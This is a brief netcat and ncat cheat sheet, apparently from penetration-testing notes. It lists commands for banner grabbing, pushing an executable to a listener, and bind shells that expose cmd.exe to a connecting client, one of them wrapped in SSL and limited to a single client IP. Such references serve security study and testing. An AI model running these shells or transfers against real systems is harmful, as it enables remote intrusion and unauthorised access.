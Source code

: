 *Netcat*  
nc -nv TargetIP port  #connect to port,client/banner grab  
nc -nlvp 4444  #start netcat server  

nc -nv TargetIP 4444 </usr/share/windows-binaries/wget.exe #send file to listening netcat server  
nc -nlvp 4444 > incoming.exe #receive file from client pipe into exe  

nc -lvp 4444 -e cmd.exe #bind shell server  
nc -vn TargetIP 4444 #bind shell client  

*Ncat*  
ncat -lvp 4444 -e cmd.exe --allow ClientIP --ssl #ncat server bind shell only to clientip with ssl encryption  
ncat -v ServerIP 4444 --ssl #client connect bind 
